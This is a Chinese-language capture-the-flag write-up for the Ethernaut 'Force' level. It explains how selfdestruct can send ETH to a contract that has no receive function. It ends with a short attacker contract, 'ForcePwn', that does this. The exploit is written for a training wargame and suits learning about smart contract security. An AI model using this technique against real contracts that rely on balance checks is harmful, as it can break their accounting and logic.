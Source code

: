 # Force

## 要求:
```
有些合约就是拒绝你的付款,就是这么任性 ¯\_(ツ)_/¯

这一关的目标是使合约的余额大于0

  这可能有帮助:

Fallback 方法
有时候攻击一个合约最好的方法是使用另一个合约.
阅读上方的帮助页面, "Beyond the console" 部分
```

## 代码

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force { /*
                   MEOW ?
         /\_/\   /
    ____/ o o \
    /~____  =ø= /
    (______)__m_m)
                   */ }
```


## 思路

这个就是没有接收函数的合约，可以使用`selfdestruct`函数。


`selfdestruct`命令可以用来删除智能合约，并将该合约剩余ETH转到指定地址。`selfdestruct`是为了应对合约出错的极端情况而设计的。它最早被命名为suicide（自杀），但是这个词太敏感。为了保护抑郁的程序员，改名为`selfdestruct`；在 v0.8.18 版本中，`selfdestruct` 关键字被标记为「不再建议使用」，在一些情况下它会导致预期之外的合约语义，但由于目前还没有代替方案，目前只是对开发者做了编译阶段的警告，相关内容可以查看 [EIP-6049](https://eips.ethereum.org/EIPS/eip-6049)。


## pwn
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForcePwn{
    constructor() payable {

    }
    function pwn(address  payable  target) public{
        selfdestruct(payable(target));
    }
}
```